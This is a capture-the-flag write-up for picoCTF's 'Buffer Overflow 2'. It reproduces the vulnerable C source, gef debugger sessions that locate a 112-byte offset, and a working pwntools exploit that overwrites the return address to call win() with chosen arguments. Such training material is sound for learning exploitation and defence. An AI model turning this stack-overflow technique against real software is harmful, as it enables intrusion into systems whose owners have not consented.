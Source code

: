 # picoCTF - Buffer Overflow 2

## Description
Control the return address and arguments This time you'll need to control the arguments to the function you return to!

As always, let's take a look at the code first:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Here we must do something simmilar to the past challenge, but in this case, there are 2 arguments that we need to pass to the function 'win'. `arg1=0xCAFEF00D` and `arg2=0xF00DF00D`
So, let's first see the size of our input to overflow the stack buffer and overwrite the return address. Then we'll make the program return to 'win' with the specified arguments.

Let's set the breakpoint after the input reading, and see how the stack is at that point.
```
gef➤  b *vuln+34
Breakpoint 1 at 0x804935a
gef➤  r
Starting program: /home/mfumega/Documents/challenges/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
AAAABBBB

Breakpoint 1, 0x0804935a in vuln ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────── registers ───
$eax   : 0xffffce1c  →  "AAAABBBB"
$ebx   : 0x0804c000  →  0x0804bf10  →  0x00000001
$ecx   : 0xf7fa19c0  →  0x00000000
$edx   : 0x1
$esp   : 0xffffce00  →  0xffffce1c  →  "AAAABBBB"
$ebp   : 0xffffce88  →  0xffffcea8  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffcf74  →  0xffffd14d  →  "/home/mfumega/Documents/challenges/vuln"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x0804935a  →  <vuln+0022> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffce00│+0x0000: 0xffffce1c  →  "AAAABBBB"    ← $esp
0xffffce04│+0x0004: 0x0000001a
0xffffce08│+0x0008: 0xf7fa0da0  →  0xfbad2887
0xffffce0c│+0x000c: 0x08049348  →  <vuln+0010> add ebx, 0x2cb8
0xffffce10│+0x0010: 0xf7fa0da0  →  0xfbad2887
0xffffce14│+0x0014: 0xf7fa0de7  →  0xfa19b40a
0xffffce18│+0x0018: 0x00000001
0xffffce1c│+0x001c: "AAAABBBB"
─────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ───
    0x8049351 <vuln+0019>      lea    eax, [ebp-0x6c]
    0x8049354 <vuln+001c>      push   eax
    0x8049355 <vuln+001d>      call   0x80490f0 <gets@plt>
 →  0x804935a <vuln+0022>      add    esp, 0x10
```
And here in the stack, we can see the input 'AAAABBBB' and we can see the return address pointing to main '0x080493dd'.

```
gef➤  x/50wx $esp
0xffffce00:     0xffffce1c      0x0000001a      0xf7fa0da0      0x08049348
0xffffce10:     0xf7fa0da0      0xf7fa0de7      0x00000001      0x41414141
0xffffce20:     0x42424242      0x00000000      0xf7df549d      0xf7f9ea60
0xffffce30:     0xf7fa0da0      0xf7fa0000      0xffffce78      0xf7de942b
0xffffce40:     0xf7fa0da0      0x0000000a      0x0000001a      0xf7e55801
0xffffce50:     0xf7d83e54      0x000007d4      0xf7fa0e3c      0x0000001a
0xffffce60:     0xffffcea8      0xf7fd9004      0x00000000      0x0804c000
0xffffce70:     0xffffcf74      0xf7ffcb80      0xffffcea8      0x080493d5
0xffffce80:     0x0804a063      0x0804c000      0xffffcea8      0x080493dd
0xffffce90:     0xffffced0      0xf7fbe66c      0xf7fbeb10      0x000003e8
0xffffcea0:     0xffffcec0      0xf7fa0000      0xf7ffd020      0xf7d97519
0xffffceb0:     0xffffd14d      0x00000070      0xf7ffd000      0xf7d97519
0xffffcec0:     0x00000001      0xffffcf74
gef➤
```

By calculating the offset as before, we know that our input should be 112 bytes until the return address. So if we input 112 'A' and 4 letters 'B', the program will attempt to jump to 0x42424242.

Let's replace that 4 'B' with the actual address of 'win'.
```
gef➤  print win
$1 = {<text variable, no debug info>} 0x8049296 <win>
gef➤
```
And now, we must call the win function, and pass the arguments we mentioned before. To do that, we'll just send the two arguments right aftet we jump to the function.

First let's run the program in debug mode with `p = gdb.debug(binary_path)`, so we can know where the actual values that 'arg1' and 'arg2' are, and their values.

These 2 are the lines that compare the arguments against the values we saw before:
```
 →  0x804930c <win+0076>       cmp    DWORD PTR [ebp+0x8], 0xcafef00d
    0x8049315 <win+007f>       cmp    DWORD PTR [ebp+0xc], 0xf00df00d
```

And we can check the values at [ebp+0x8] and [ebp+0xc], and they are: 
```
(remote) gef➤  x/x $ebp+0x8
0xffed3404:     0xf7faf66c
(remote) gef➤  x/x $ebp+0xc
0xffed3408:     0xf7fafb10
(remote) gef➤
```

We saw the values `0xf7faf66c` for arg1, and `0xf7fafb10` for arg2. We can use the same stack dump from before, and we'll find this 2 values starting at 0xffffce94 and 0xffffce98. 
So, we know that 4 bytes after the return address, are stored arg1 and arg2. 

Now we can build out final exploit with the complete payload like this:

```python
#!/usr/bin/env python3
from pwn import *

#context.arch = 'amd64'
binary_path = '/tmp/here/vuln'
p = process(binary_path)
#p = gdb.debug(binary_path)
offset = 112

payload = b'A' * offset
payload += p32(0x8049296)
payload += b'A' * 4
payload += p32(0xcafef00d)
payload += p32(0xf00df00d)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

That's it for this challenge! If we do this against the remote connection, we'll get the flag! 


